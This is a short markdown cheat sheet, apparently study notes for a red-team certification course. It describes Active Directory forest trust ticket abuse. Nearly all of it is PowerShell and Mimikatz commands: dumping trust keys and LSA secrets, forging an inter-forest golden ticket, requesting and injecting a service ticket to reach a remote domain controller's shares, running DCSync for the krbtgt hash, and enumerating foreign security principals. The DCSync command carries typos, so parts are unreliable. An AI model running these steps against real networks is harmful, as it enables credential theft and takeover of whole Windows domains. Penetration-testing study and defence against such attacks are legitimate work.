 ```yaml
---
title: "19. Ticket Abuse"
section: "crtp"
date: 2022-04-18
tags: ["Forest Trust Abuse", "ticket abuse"]
---
```


## Forest Trust Ticket Abuse

## 1. We require the trust key of inter-forest trust
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

## 2. Forge the inter-forest TGT
```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:ad.domain.local /sid:<sid> /rc4:<rc4-hash> /service:krbtgt /target:domain2.local /ticket:C:\temp\trust_forest_tkt.kirbi"'
```

## 3. Request a TGS
```powershell
.\asktgs.exe C:\temp\trust_forest_tkt.kirbi CIFS/dc.domain2.local
```

## 4. Inject and use the TGS
```powershell
.\kirbikator.exe lsa .\CIFS.computer.targetDomain.local.kirbi
ls \\dc.domain2.local\shares\
```

# Extras
## To use the DCSync feature for getting krbtg hash execute the below command with DC privileges
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsyn /domain:dc.domain2.local /all /cvs"'
```

## Get the ForeignSecurityPrincipal
```powershell
#These SIDs can access to the target domain
Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

#With the by default SIDs, we find S-1-5-21-493355955-4215530352-779396340-1104
#We search it in our current domain
Get-DomainObject |? {$_.objectsid -match "S-1-5-21-493355955-4215530352-779396340-1104"}
```